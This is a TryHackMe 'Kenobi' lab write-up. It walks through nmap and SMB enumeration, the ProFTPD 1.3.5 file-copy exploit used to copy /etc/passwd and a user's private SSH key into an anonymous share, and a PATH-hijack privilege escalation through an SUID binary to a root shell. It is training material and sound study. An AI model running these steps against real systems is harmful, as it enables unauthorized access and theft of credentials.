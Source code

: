 ```yaml
---
title: "Kenobi - THM"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-11-21 02:33:29 +05:30
categories: [Writeups, TryHackMe]
tags: [THM, ProFTPD, PATH]
render_with_liquid: false
---
```


## Enumeration

- `nmap -Pn -p- -A 10.10.114.180`

```
PORT      STATE SERVICE     REASON         VERSION
21/tcp    open  ftp         syn-ack ttl 60 ProFTPD 1.3.5
22/tcp    open  ssh         syn-ack ttl 60 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8m00IxH/X5gfu6Cryqi5Ti2TKUSpqgmhreJsfLL8uBJrGAKQApxZ0lq2rKplqVMs+xwlGTuHNZBVeURqvOe9MmkMUOh4ZIXZJ9KNaBoJb27fXIvsS6sgPxSUuaeoWxutGwHHCDUbtqHuMAoSE2Nwl8G+VPc2DbbtSXcpu5c14HUzktDmsnfJo/5TFiRuYR0uqH8oDl6Zy3JSnbYe/QY+AfTpr1q7BDV85b6xP97/1WUTCw54CKUTV25Yc5h615EwQOMPwox94+48JVmgE00T4ARC3l6YWibqY6a5E8BU+fksse35fFCwJhJEk6xplDkeauKklmVqeMysMWdiAQtDj
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBpJvoJrIaQeGsbHE9vuz4iUyrUahyfHhN7wq9z3uce9F+Cdeme1O+vIfBkmjQJKWZ3vmezLSebtW3VRxKKH3n8=
|   256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGB22m99Wlybun7o/h9e6Ea/9kHMT0Dz2GqSodFqIWDi
80/tcp    open  http        syn-ack ttl 60 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/admin.html
111/tcp   open  rpcbind     syn-ack ttl 60 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      44864/udp6  mountd
|   100005  1,2,3      50049/tcp6  mountd
|   100005  1,2,3      54921/tcp   mountd
|   100005  1,2,3      57249/udp   mountd
|   100021  1,3,4      34301/udp   nlockmgr
|   100021  1,3,4      42343/tcp   nlockmgr
|   100021  1,3,4      45217/tcp6  nlockmgr
|   100021  1,3,4      52968/udp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn syn-ack ttl 60 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack ttl 60 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     syn-ack ttl 60 2-3 (RPC #100227)
33291/tcp open  mountd      syn-ack ttl 60 1-3 (RPC #100005)
36651/tcp open  mountd      syn-ack ttl 60 1-3 (RPC #100005)
42343/tcp open  nlockmgr    syn-ack ttl 60 1-4 (RPC #100021)
54921/tcp open  mountd      syn-ack ttl 60 1-3 (RPC #100005)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2021-11-21T07:00:52-06:00
| nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KENOBI<00>           Flags: <unique><active>
|   KENOBI<03>           Flags: <unique><active>
|   KENOBI<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time:
|   date: 2021-11-21T13:00:52
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 4604/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 57188/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 40874/udp): CLEAN (Failed to receive data)
|   Check 4 (port 43903/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 2h00m09s, deviation: 3h27m51s, median: 8s
```

### SMB

```
nmap -Pn -sV -p 139,445 --script=smb-os-discovery,'smb-vuln*','smb-enum*' 10.10.114.180
```

```
\\10.10.114.180\anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
```

- `smbclient --no-pass \\\\10.10.114.180\\anonymous`
- `get log.txt`
- `cat log.txt`

```
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi
```

- We got the path to SSH keys which will be useful later.

---

## Exploitation

- Google or searchsploit ProFTPd 1.3.5
- [ProFTPd 1.3.5 File Copy Exploit](https://www.exploit-db.com/exploits/36742)
- Everything copied to `/home/kenobi/share/` using FTP file copy exploit was accessible through `/anonymous` share using `smbclient`.

```
FTP Anonymous Login =>

ftp> site cpfr /etc/passwd
350 File or directory exists, ready for destination name
ftp> site cpto /home/kenobi/share/passwd
250 Copy successful

ftp> site cpfr /etc/samba/smb.conf
350 File or directory exists, ready for destination name
ftp> site cpto /home/kenobi/share/smb.conf
250 Copy successful

ftp> site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
ftp> site cpto /home/kenobi/share/id_rsa
250 Copy successful
```

- Then get these files from `/anonymous` share. 
- `smbclient --no-pass \\\\10.10.114.180\\anonymous`

```
smb:\> ls 
log.txt, passwd, id_rsa, smb.conf

smb:\> get id_rsa
```

- Change the permissions on `id_rsa` file.
- `chmod 600 id_rsa`
- `ssh -i id_rsa kenobi@10.10.114.180` 
- `whoami` <span class="fat-arrow">=></span> `kenobi`

---

## Privilege Escalation with PATH Manipulation 

- `find / -perm -u=s -type f 2>/dev/null`
- There is an odd looking `/usr/bin/menu` entry.
- `strings /usr/bin/menu` 

```
strings /usr/bin/menu

1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
```

- It is calling `curl`, `uname`, and `ifconfig` without absolute path.
- We can create a binary named as either of these 3 in `/tmp` and add it to path.
- `cp /bin/bash /tmp/curl` OR
- `echo "/bin/bash -p" > /tmp/curl`
- `export PATH=/tmp:$PATH`
- Now when `curl` is invoked without absolute path (`/usr/bin/curl`), it will be invoked from `/tmp/curl`

```bash
echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/
```

- `/usr/bin/menu` <span class="fat-arrow">=></span> Press 1 as it invoked `curl`
- We get a root shell
- `whoami` <span class="fat-arrow">=></span> `root`


